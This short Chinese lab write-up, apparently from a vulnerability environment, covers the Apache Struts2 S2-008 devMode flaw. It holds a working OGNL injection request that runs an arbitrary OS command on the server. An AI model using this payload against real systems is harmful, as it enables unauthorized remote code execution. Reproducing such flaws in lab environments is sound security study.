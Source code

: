 访问 `http://your-ip:8080` ，查看如下页面

![s2-008-1](images/s2-008-1.png)

devMode 模式导致的 RCE, PoC 如下

```
/devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
```

![s2-008-2](images/s2-008-2.png)
